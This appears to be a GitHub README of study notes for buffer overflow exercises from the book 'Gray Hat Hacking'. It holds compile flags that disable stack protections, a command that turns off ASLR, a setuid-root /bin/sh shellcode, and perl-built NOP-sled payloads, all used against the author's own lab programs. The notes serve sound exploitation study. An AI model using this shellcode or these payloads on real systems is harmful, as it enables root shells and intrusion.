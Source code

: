 Grayshell
=========

Some basic shell code, when I learn &lt;Gray Hat Hacking>


#How to run 

##Example1 : Buffer_overflow
//notice we start out at user privileges "$"

```
gcc overflow.c -ggdb -mpreferred-stack-boundary=2 -fno-stack-protector -o overflow
``` 

```
$gdb -g overflow 
(gdb) run
(gdb) info req eip
(gdb) q
```

##Example2 : Meet.c
//notice we start out at user privileges "$"

```
gcc meet.c -ggdb -mpreferred-stack-boundary=2 -fno-stack-protector -z execstack -o meet
``` 
//notice the difference between ` and '

```
perl -e 'print "\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh";' > sc
```

```
./meet Mr `perl -e 'print "A" x 600'`
```
```
ESP: 0xbffffc48

0xbffffc48 - 0x300 = 0xbffff948

perl -e 'print "\x48\xf9\xff\xff"x38'

```
```
./meet Mr `perl -e 'print "\x90"x203';``cat sc``perl -e 'print "\x48\xf9\xff\xff"x38';`
```






##Example3 : Shellcode.c
```
gcc -ggdb -mpreferred-stack-boundary=2 -fno-stack-protector -z execstack -o shellcode shellcode.c
```
```
\x31\xc0\x31\xdb\xb0\x17\xcd\x80\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh
```

##Example4 : Repeat return address

```
gcc -o get_sp get_sp.c
```

### forbidden ASLR
```
echo "0" > /proc/sys/kernel/randomize_va_space 

ESP: 0xbffffc48


``` 

##Example5 : exploit.c
```
./exploit 600
```

##Example6 : smallbuff
```
gcc -ggdb -mpreferred-stack-boundary=2 -fno-stack-protector -z execstack -o smallbuff smallbuff.c
```
```
gcc exploit2.c -o exploit2
./exploit2
```

## peercast 
```
http://peercast.sourcearchive.com/downloads/0.1214.toots.svn20051112/
```
